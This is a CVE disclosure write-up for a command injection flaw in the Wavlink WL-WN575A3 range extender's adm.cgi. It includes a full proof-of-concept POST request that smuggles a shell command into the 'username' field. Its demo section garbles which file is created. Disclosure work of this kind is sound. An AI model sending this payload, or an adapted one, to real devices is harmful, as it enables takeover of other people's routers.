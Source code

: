 # CVE-ID

CVE-2023-38861

# Information

**Vendor of the products:**  WAVLINK

**Vendor's website:**  https://www.wavlink.com/en_us

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com))

**Affected products:** Wavlink WL-WN575A3

**Affected firmware version:** R75A3_V1410_220513

**Firmware download address:** https://www.wavlink.com/en_us/firmware/details/fac744bd61.html

# Overview

`Wavlink WL-WN575A3 R75A3_V1410_220513` has a command injection vulnerability detected at function `set_sys_adm`. Attackers can send `POST` request messages to `/cgi-bin/adm.cgi` and inject evil commands into parameter `username` to execute arbitrary commands.

# Product parameters

`Wavlink WL-WN575A3` is an AC1200 Dual-band Wi-Fi Range Extender. The test version(the newest version) here is `R75A3_V1410_220513`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/etc_ro/lighttpd/www/cgi-bin/adm.cgi`.

At first, from the `_start` entry enters, and then the `ftext` function is executed.

![](imgs/2.png)

In the function `ftext`, When sending a POST request to this interface, function `set_sys_adm` can be accessed by setting the parameter value of `page` to `sysAdm`.

<img src="imgs/3.png" style="zoom:100%;" />

In the function `set_sys_adm`, the program uses function `web_get` to obtain the content of parameter `SYSPASS`, `username` and `newpass` which are sent by `POST` request. On line 55, the attacker can complete command execution by controlling the `username` variable.

![](imgs/4.png)



# POC

Send the following to the URL `http://192.168.10.1/cgi-bin/adm.cgi` by `POST` request.

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
Content-Length: 91
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.10.1/set_time.shtml?r=29725
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=1243623152
Connection: close

page=sysAdm&SYSPASS=password&username='`ls>/etc_ro/lighttpd/www/data.html`'&newpass=12345678
```

# Attack Demo

After sending the POC, the command `ls>/etc_ro/lighttpd/www/data.html` will be executed and `aaa.html` will be created in the `/etc_ro/lighttpd/www/data.html` directory.

![](imgs/5.png)

![](imgs/6.png)